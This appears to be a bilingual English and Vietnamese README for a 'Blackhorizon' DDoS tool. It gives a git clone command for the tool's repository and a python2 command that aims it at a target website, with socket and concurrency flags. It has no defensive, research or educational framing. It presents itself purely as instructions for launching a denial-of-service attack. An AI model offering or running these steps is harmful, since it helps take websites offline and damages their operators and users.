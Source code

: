 ## English
# How to install the Blackhorizon DDoS tool?
*`git clone https://github.com/le-cuong-hacker1111/Black/Blackhorizon`
*`cd Blackhorizon`

# How to use the Blackhorizon DDoS tool?
*`python2 blackhorizon.py`
*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Number of concurrent clounds     (default: 1)
# -s, --sockets Number of concurrent sockets     (default: 1)

## Việt Nam
# Làm thế nào để cài đặt tool DDoS Blackhorizon?
*`git clone https://github.com/le-cuong-hacker1111/Black/Blackhorizon`
*`cd Blackhorizon`

# Làm thế nào để sử dụng tool DDoS Blackhorizon
*`python2 blackhorizon.py`
*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Số lượng cụm đồng thời (mặc định: 1)
# -s, --sockets Số lượng ổ cắm đồng thời (mặc định: 1)
